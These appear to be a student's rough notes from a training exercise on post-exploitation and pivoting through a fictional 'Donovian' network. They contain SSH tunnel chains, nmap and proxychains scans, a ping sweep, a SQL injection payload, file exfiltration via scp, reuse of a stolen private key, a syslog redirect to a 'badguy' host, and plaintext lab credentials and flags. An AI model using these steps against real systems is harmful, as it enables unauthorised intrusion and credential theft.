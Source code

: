 Donovian Post Exploitation (DPE)
XX Mar 2024
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyber Intelligence, Surveillance and Reconnaissance (C-ISR)

Objective: Maneuver through Donovian-Extranet, identify and gain access futher into Donovian internal Cyberspace, it is believed that there is an network that acts as an internal DMZ between these to locations. Intelligence was able to identify the last octet of a system that resides in the Donovian internal Cyberspace.

Tools/Techniques: All connections will be established through SSH masquerades or web browser. Ports in use will be dependent on target location and are subject to change. Network scanning tools/technique usage is at the discretion of student. Credential reuse is authorized

Scenario Credentials: FLAG = P05T3xpl01t5t@rtoF@ct1v1ty

Prior Approvals: Sudo usage and remote port forward is authorized. System dir walks from system roots, altering accounts/routing or tool uploads are authorized. Survey and access to newly discovered systems during C-ISR.

Scheme of Maneuver:
>Jump Box
->T1: 192.168.28.100 (EXT NET)
-->T3:x.x.x.9
```shell
ssh student@10.50.39.150 -L 10300:192.168.28.100:2222
ssh student@10.50.39.150 -p 10300 -D 9050 -NT
ssh student@10.50.39.150 -L 10301:192.168.28.100:80

ssh student@10.50.39.150 -L 10300:192.168.28.100:2222
-------------------------------------------------------------
ssh www-data@localhost -p 10300 -D 9050 -NT
ssh student@10.50.39.150 -L 10301:192.168.28.100:80
-------------------------------------------------------------
Target Section:

T1
Hostname: Donovian_Extranet
IP: 192.168.28.100
80
OS: CentOS
Creds:Unknown
Last Known SSH Port: 2222
PSP: none
Malware: none
Action: Perform SSH masquerade and survey system. Identify redirection to the next target.

T2
Hostname: Donovian_Extranet
IP: 192.168.150.253
80
OS: CentOS
Creds:Unknown
Last Known SSH Port: 
PSP: none
Malware: none
Action: Perform SSH masquerade and survey system. Identify redirection to the next target.
Not shown: 998 closed ports
PORT    STATE SERVICE
80/tcp  open  http
514/tcp open  shell
nmap -p 445 --script smb-os-discovery 192.168.28.5
nmap 192.168.150.253 -Pn -p 80 --script http-enum.nse
nmap 192.168.150.253 -Pn -p 80 --script http-robots.txt.nse
proxychains nmap 192.168.28.9 -Pn --script banner.nse -p 135,139,445,3389,5040,5985,5986,47001,49664,49665,49666,49667,49668,49670,49671,49672



T3
Hostname: unknown
IP: 192.168.28.9 internal
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Gain access; survey host and map Donovian internal Cyberspace.

for i in {1..254}; do (ping -c 1 192.168.$i.0 | grep "bytes from" &); done | awk '{print $4}' | cut -d: -f1 > ips7.txt
for i in {1..254}; do (ping -c 1 192.168.$i.9 | grep "bytes from" &); done | awk '{print $4}' | cut -d: -f1
192.168.28.9
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp  open  ms-wbt-server
5040/tcp  open  unknown
5985/tcp  open  wsman
5986/tcp  open  wsmans
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49672/tcp open  unknown

scp -P 10300 www-data@localhost:/tmp/backup.tar.gz .
tar -xvzf backup.tar.gz

tar -xvzf backups.tar.gz -C /home/student/comrade

3201/tcp open  cpq-tasksmart
 
RAM' or 1='1

ssh -i /home/student/comrade/.ssh/id_rsa comrade@localhost -p 3201 -D 90

ssh student@10.50.39.150 -L 10300:192.168.28.100:2222
ssh www-data@localhost -p 10300 -L 10301:192.168.150.253:3201
ssh root@localhost -p 10301 -D 9050

-------------------------------------------------------------
ssh -i /home/student/comrade/.ssh/id_rsa comrade@localhost -p 10304 -L 10305:192.168.150.253:3201

ssh www-data@localhost -p 10300 -D 9050 -NT
ssh student@10.50.39.150 -L 10301:192.168.28.100:80


192.168.56.1   badguy  
rsyslog.d ---all
@@badguy:514
#f1ag = KIoM5oUabLaNdBfIrwzC


tcpdump -vv -x not port 3201

proxychains xfreerdp /v:192.168.28.9 /u:comrade
StudentMidwayPassword